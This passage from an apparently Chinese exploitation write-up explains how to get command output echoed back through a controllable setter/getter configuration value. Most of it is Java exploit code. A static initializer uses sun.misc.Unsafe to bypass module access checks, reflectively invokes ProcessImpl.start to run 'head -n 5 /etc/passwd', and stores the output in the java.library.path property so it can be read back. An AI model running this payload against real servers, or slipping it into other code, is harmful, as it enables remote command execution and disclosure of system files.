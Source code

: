 1.  我的 setter 操作成功设置了一个字符串作为目录
    
2.  选项卡返回的信息等同于执行了一个 getter 操作
    
3.  目录可控，返回信息可读，这不就达成了我们的回显的所有条件了吗？
    

废话不多说，直接上代码实现：

```plain
package zk_backup_0.configs.conf1;

import sun.misc.Unsafe;

import java.io.BufferedReader;
import java.io.File;
import java.io.FileOutputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Map;


public class ExpTest {

    static {
        try {

            Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe) unsafeField.get(null);

            Module module = Object.class.getModule();
            Class<?> currentClass = ExpTest.class;

            long addr = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(currentClass, addr, module);

//            String command = "head -n 5 /etc/passwd";
            String[] cmd = {"head", "-n", "5", "/etc/passwd"};
            Class clz = Class.forName("java.lang.ProcessImpl");
            Method method = clz.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
            method.setAccessible(true);
            Process process = (Process) method.invoke(clz, cmd, null, null, null, false);
            BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            String line = reader.readLine();

            String res = "";
            while (line != null) {
                res = res + line + "\n";
                line = reader.readLine();
            }
            reader.close();
            System.setProperty("java.library.path", res);

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
